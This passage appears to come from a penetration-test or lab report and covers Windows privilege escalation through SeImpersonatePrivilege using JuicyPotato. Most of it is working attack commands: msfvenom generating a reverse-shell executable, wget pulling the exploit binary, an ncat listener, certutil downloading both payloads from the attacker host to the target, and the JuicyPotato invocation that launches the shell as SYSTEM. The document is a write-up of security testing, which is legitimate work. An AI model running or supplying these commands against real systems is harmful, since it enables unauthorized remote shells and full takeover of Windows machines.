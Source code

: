 #### Privilege Escalation

**Vulnerability Exploited:** Kernel.

**Vulnerability Explanation:** The low privilege user previously gain was found to have enabled `SeImpersonatePrivilege`, with it was possible to make use of a public exploit for MS16-075 (Aka RottenPotato), an exploit where is abused the way Windows handles authentication requests between services running on the same machine.
An updated variant of "RottenPotato" called "JuicyPotato" which works on newer systems was utilized.

The vulnerability was discovered by running:

```texinfo
C:\Users\tolis\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

**Vulnerability Fix:** Upgrade Windows to a newer version where the vulnerability has been patched.

**Severity:** \textcolor{red}{Critical}.

**Exploit Code:** To make use of JuicyPotato, first a reverse shell was generated and then the exploit `JuicyPotato-Static.exe` was downloaded in the attacker machine.

The exploit code used of JuicyPotato can be found in the following repository:

```texinfo
https://github.com/TsukiCTF/Lovely-Potato/blob/master/JuicyPotato-Static.exe
```

To generate the reverse shell, it was executed:

```texinfo
msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=10.10.14.4 LPORT=443 -f exe -o shell.exe
wget https://github.com/TsukiCTF/Lovely-Potato/raw/master/JuicyPotato-Static.exe
```

In another terminal in the attacker machine, a listener on port 443 was spined up as well:

```texinfo
sudo rlwrap ncat -lvnp 443
```

Later on a web server was started and from the compromised machine the reverse shell and exploit where downloaded, later on used by executing the following commands:

```texinfo
cd C:\users\tolis\desktop
certutil.exe -urlcache -split -f "http://10.10.14.4/reverse_shell.exe" reverse_shell.exe
certutil.exe -urlcache -split -f "http://10.10.14.4/JuicyPotato-Static.exe" JuicyPotato-Static.exe    
JuicyPotato-Static.exe -l 9999 -p c:\Windows\System32\cmd.exe -t * -c  {4991d34b-80a1-4291-83b6-3328366b9097} -a "/c c:\Users\tolis\Desktop\reverse_shell.exe"
```
